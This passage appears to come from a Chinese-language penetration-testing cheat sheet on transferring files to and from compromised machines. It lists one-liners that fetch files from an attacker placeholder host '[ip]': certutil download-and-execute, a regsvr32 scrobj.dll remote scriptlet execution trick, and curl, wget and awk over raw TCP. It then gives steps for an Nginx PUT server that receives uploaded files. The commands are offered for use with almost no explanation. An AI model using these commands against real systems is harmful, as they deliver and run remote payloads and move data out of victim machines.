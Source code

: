 ##### 	 certutil

```
下载并执行
certutil -urlcache -split -f http://[ip]/[filename] [target_dir]/[filename] && [target_dir]/[filename]
```

##### 	regsvr32

```
regsvr /u /s /i:http://[ip]/[filename] scrobj.dll
```

#### 	Linux

##### 	curl

```sh
curl http://[ip]/[filename]
```

##### 	wget

```
wget http://[ip]/[filename]
```

##### 	awk

```sh
awk 'BEGIN{
	RS = ORS = "\r\n"
	HTTPCon  = "/inet/tcp/0/[ip]/[port]"
	print "GET /[file] HTTP/1.1\r\nConnection: close\r\n" |& HTTPCon
    while (HTTPCon |& getline > 0)
    	print $0
    close(HTTPcon)
}'
```

###  Setup HTTP PUT server

以下列出了上传文件到 HTTP Server 的几种方法

#### Nginx 搭建 PUT server

```bash
mkdir -p /var/www/upload/ # 创建目录 
chown www-data:www-data /var/www/upload/ # 修改目录所属用户和组
cd /etc/nginx/sites-available # 进入 nginx 虚拟主机目录

# 写入配置到 file_upload 文件
cat <<EOF > file_upload
server {
    listen 8001 default_server;
    server_name kali;
        location / {
        root /var/www/upload;
        dav_methods PUT;
    }
}
EOF
# 写入完毕
cd ../sites-enable # 进入 nginx 虚拟主机启动目录
ln -s /etc/nginx/sites-available/file_upload file_upload # 启用 file_upload 虚拟主机
systemctl start nginx # 启动 Nginx
```
